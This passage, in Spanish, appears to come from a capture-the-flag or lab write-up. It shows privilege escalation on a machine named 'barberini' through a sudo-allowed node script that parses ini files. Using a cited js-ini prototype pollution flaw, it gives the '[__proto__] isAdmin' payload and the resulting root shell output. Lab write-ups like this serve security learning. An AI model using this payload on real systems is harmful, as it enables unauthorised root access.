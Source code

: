 Una vez dentro de la m&aacute;quina, ejecutando **sudo -l**, pude ver que puedo ejecutar el binario /usr/local/bin/jini como propiedad de root sin necesidad de proporcionar contrase&ntilde;a.

```bash
www-data@barberini:~/html$ sudo -l
Matching Defaults entries for www-data on barberini:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on barberini:
    (ALL : ALL) NOPASSWD: /usr/local/bin/jini
``` 
El contenido del binario es el siguiente:

```bash
www-data@barberini:~/html$ cat /usr/local/bin/jini
#!/usr/bin/env node
var fs = require('fs')
var ini = require('js-ini')
const myArgs = process.argv.slice(2);
if (myArgs.length < 1) {
  console.error(`provide a ini file to parse`)
  return
}

var parsed = ini.parse(fs.readFileSync(myArgs[0], 'utf-8'))
if(isAdmin){
  console.log("Awesome!!!")
  require('child_process').execSync(
    '/bin/bash -l -p',
    { stdio: 'inherit' }
  );
}
```

Para poder escalar privilegios utilice la siguiente referencia https://security.snyk.io/vuln/SNYK-JS-INI-1048974 donde indican que el codificador/decodificador ini para node se ve afectada por una vulnerabilidad Prototype Pollution. El payload que utilice para explotar la vulnerabilidad fue el siguiente:

```bash
[__proto__]
isAdmin = "polluted"
```
Por &Uacute;ltimo, lo transfer&iacute;­ a la maquina v&iacute;­ctima y ejecute sudo **/usr/local/bin/jini payload.ini** para poder obtener una Shell como el usuario root

```bash
www-data@barberini:/tmp$ sudo /usr/local/bin/jini payload.ini 
Awesome!!!
root@barberini:/tmp# whoami
root
root@barberini:/tmp# 

```


